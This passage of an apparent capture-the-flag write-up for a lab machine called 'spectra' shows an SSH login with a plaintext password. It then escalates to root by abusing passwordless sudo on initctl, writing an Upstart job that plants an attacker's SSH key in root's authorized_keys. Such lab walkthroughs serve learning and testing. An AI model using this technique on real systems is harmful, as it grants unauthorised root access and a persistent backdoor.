 ```bash
nginx@spectra ~ $ ssh katie@localhost
ssh katie@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/chronos/user/.ssh/known_hosts).
Password: SummerHereWeCome!!

katie@spectra ~ $ id
id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $
```

Okay, now we can escalate to root, let's start...

## root part
Let's see which binaries we can execute with sudo privileges.

```bash
katie@spectra ~ $ sudo -l
sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

> initctl allows a system administrator to communicate and interact with the Upstart init(8) daemon.

Let's first list the jobs:
```bash
sudo /sbin/initctl list
```

Okay, here we can try to inject a code by modifying service `test` which is customized service, does not come up as default job.

- For more [information](https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9)

Here we'll write our public ssh key into the `/root/.ssh/authorized_keys`.<br>
You can find your default public ssh key from `~/.ssh/id_rsa.pub` if you generated before. If not, then use `ssh-keygen` command to generate a public-private ssh key pair.

I'm giving the codes just in case:
```bash
cat - << EOF > /etc/init/test3.conf
description "Add pubkey to authorized_keys job"
author      "f4T1H"

start on filesystem or runlevel [2345]
stop on shutdown

script
    echo "YOUR PUBLIC SSH KEY HERE" | tee /root/.ssh/authorized_keys
end script
EOF

sudo /sbin/initctl start test3
```
